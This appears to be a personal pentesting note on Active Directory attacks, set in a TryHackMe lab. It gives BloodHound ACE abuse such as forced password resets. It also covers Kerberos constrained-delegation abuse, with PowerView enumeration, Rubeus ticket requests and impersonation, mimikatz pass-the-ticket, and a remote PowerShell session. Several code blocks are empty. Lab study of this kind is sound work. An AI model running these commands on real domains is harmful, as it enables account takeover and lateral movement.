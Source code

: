 #### Using Sharphound
First, load the data into bloodhound. 
Then, make a pathway from your current user/group to a target, to see any opportunities

#### Permission delegation / Access Control Entries
In Bloodhound, you can see the lines of permission (see [Active Directory exploitation#Using Sharphound](Using sharphound))
- ForceChangePassword: Force a password change to a password you set
```
$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password
```
- AddMembers: Add users or groups (including your own) to a target group
```

```
- GenericAll: Complete control (force change password, add to group etc)
```

```
- GenericWrite: update any non-protected parameters of the object (script path etc)
- WriteOwner: Update ownership of the object (set yourself as owner then change password)
- WriteDACL: Write other ACEs to the object (the ACE to change password)
- AllExtendedRights: Do any AD action (force change password)


#### Kerberos delegation
##### Unconstrained delegation
See [[Golden ticket]]
##### Constrained delegation
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation
First, check for constrained delegation:
```
Import-Module PowerView.ps1 
Get-NetUser -TrustedToAuth    // lists all constrained delegation
```

```
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt /outfile:ticket.kirbi

.\Rubeus.exe s4u /ticket:tryhackme.kirbi /impersonateuser:t1_trevor.jones /msdsspn:http/THMSERVER1.za.tryhackme.loc 
.\Rubeus.exe s4u /ticket:tryhackme.kirbi /impersonateuser:t1_trevor.jones /msdsspn:wsman/THMSERVER1.za.tryhackme.loc 
// Make sure to base64-decode if no outfile is used

mimikatz # kerberos::ptt wsman_kirbi       
mimikatz # kerberos::ptt http_kirbi  

New-PSSession -ComputerName thmserver1.za.tryhackme.loc                                                                                                                                                       
Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
// You should be in the new shell here
```
Example:
```
```